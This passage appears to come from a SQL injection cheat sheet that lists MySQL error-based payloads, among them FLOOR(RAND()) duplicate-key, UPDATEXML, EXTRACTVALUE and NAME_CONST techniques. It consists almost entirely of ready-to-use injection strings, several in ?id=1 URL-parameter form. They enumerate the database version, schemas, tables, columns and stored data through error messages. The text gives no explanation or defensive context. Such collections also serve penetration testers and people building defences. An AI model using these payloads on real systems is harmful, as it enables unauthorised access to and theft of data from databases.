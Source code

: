 ```sql
(SELECT 1 AND ROW(1,1)>(SELECT COUNT(*),CONCAT(CONCAT(@@VERSION),0X3A,FLOOR(RAND()*2))X FROM (SELECT 1 UNION SELECT 2)A GROUP BY X LIMIT 1))
'+(SELECT 1 AND ROW(1,1)>(SELECT COUNT(*),CONCAT(CONCAT(@@VERSION),0X3A,FLOOR(RAND()*2))X FROM (SELECT 1 UNION SELECT 2)A GROUP BY X LIMIT 1))+'
```


### MYSQL Error Based - UpdateXML Function

```sql
AND UPDATEXML(rand(),CONCAT(CHAR(126),version(),CHAR(126)),null)-
AND UPDATEXML(rand(),CONCAT(0x3a,(SELECT CONCAT(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)),null)--
AND UPDATEXML(rand(),CONCAT(0x3a,(SELECT CONCAT(CHAR(126),TABLE_NAME,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)),null)--
AND UPDATEXML(rand(),CONCAT(0x3a,(SELECT CONCAT(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)),null)--
AND UPDATEXML(rand(),CONCAT(0x3a,(SELECT CONCAT(CHAR(126),data_info,CHAR(126)) FROM data_table.data_column LIMIT data_offset,1)),null)--
```

Shorter to read:

```sql
UPDATEXML(null,CONCAT(0x0a,version()),null)-- -
UPDATEXML(null,CONCAT(0x0a,(select table_name from information_schema.tables where table_schema=database() LIMIT 0,1)),null)-- -
```


### MYSQL Error Based - Extractvalue Function

Works with `MySQL >= 5.1`

```sql
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(CHAR(126),VERSION(),CHAR(126)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),schema_name,CHAR(126)) FROM information_schema.schemata LIMIT data_offset,1)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),table_name,CHAR(126)) FROM information_schema.TABLES WHERE table_schema=data_column LIMIT data_offset,1)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),column_name,CHAR(126)) FROM information_schema.columns WHERE TABLE_NAME=data_table LIMIT data_offset,1)))--
?id=1 AND EXTRACTVALUE(RAND(),CONCAT(0X3A,(SELECT CONCAT(CHAR(126),data_column,CHAR(126)) FROM data_schema.data_table LIMIT data_offset,1)))--
```


### MYSQL Error Based - NAME_CONST function (only for constants)

Works with `MySQL >= 5.0`

```sql
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)--
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(user(),1),NAME_CONST(user(),1)) as x)--
?id=1 AND (SELECT * FROM (SELECT NAME_CONST(database(),1),NAME_CONST(database(),1)) as x)--
```
